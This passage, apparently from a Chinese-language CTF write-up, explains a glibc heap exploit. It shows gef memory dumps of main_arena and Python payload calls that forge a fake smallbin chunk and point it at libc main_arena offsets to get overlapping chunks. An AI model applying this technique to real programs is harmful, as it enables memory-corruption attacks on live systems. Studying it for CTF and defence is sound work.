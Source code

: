 ```c
    unsigned int binmap[ BINMAPSIZE ];
    /* Linked list, points to the next arena */
    struct malloc_state *next;
    /* Linked list for free arenas.  Access to this field is serialized
       by free_list_lock in arena.c.  */
    struct malloc_state *next_free;
    /* Number of threads attached to this arena.  0 if the arena is on
       the free list.  Access to this field is serialized by
       free_list_lock in arena.c.  */
    INTERNAL_SIZE_T attached_threads;
    /* Memory allocated from the system in this arena.  */
    INTERNAL_SIZE_T system_mem;
    INTERNAL_SIZE_T max_system_mem;
};

```

调试时的情况如下：

```
gef➤  x/100gx 0x7f466bc50ca0-96
0x7f466bc50c40 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7f466bc50c50 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7f466bc50c60 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7f466bc50c70 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7f466bc50c80 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7f466bc50c90 <main_arena+80>:	0x0000000000000000	0x0000000000000000
0x7f466bc50ca0 <main_arena+96>:	0x00005654b64314c0	0x0000000000000000
0x7f466bc50cb0 <main_arena+112>:	0x00005654b6431250	0x00005654b6431250
0x7f466bc50cc0 <main_arena+128>:	0x00007f466bc50cb0	0x00007f466bc50cb0
0x7f466bc50cd0 <main_arena+144>:	0x00007f466bc50cc0	0x00007f466bc50cc0

```

main_arena的0x0～0x80是fastbin，0x80开始是top chunk，后面是last remainder，之后的首先是unsorted bin，也就是说我们可以分配到`main_arena+122`的地址，而且可以向`main_arena+122+0x20`的地址处确定性的写入，所以我们将某个small_bin的指针修改为我们fake的chunk，从而可以将相应的fake chunk分配出去。而如果这个fake chunk与物理相邻的下一个chunk overlapping，那么bingo！



我们首先将0xa0的chunk再次申请（即预留的chunk1的位置），而且在其中构造一个`fake smallbin chunk`。

```python
add(1,0x10,0x80,"y"*0x60+p64(0)+p64(0x51)+p64(lib+0x3ebce0)*2)
```

- fake_presize = 0
- fake_size = 0x51
- fake_fd = main_arena上相应地址
- fake_fd = main_arena上相应地址

再申请两次，第二次申请时分配到main_arena上，注意尽量保持无关的结构不变。

```python
add(1,0x10,0x90,p64(lib+0x3ebcb0)*2+p64(lib+0x3ebcc0)*2+p64(lib+0x3ebcd0)*2+p64(heap+0x340+0x60)*2)
```
